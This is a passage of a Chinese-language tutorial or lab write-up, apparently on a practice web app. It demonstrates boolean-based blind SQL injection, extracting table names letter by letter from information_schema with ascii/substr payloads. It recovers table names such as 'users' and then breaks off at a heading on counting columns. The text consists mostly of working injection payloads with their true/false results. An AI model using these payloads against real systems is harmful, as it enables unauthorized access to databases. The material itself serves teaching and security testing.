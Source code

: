 第一张表:

```sql
第一个字母:
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97# 存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<122# 存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>109# 不存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<103# 不存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>106# 不存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=103#  存在
```

第一个字母为`g`

第二个字母:

```sql
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>97#    存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))<122#    存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>109#    存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>115#    存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>118# 不存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=116# 不存在
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=117#    存在
```

第二个字母为`u`
以此类推…

第二张表:

```csharp
第一个字母:
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))>97#

.............
```

第一个字母为`u`

以此类推得到第二张表表名为`users`

### 5.判断表中的字段数
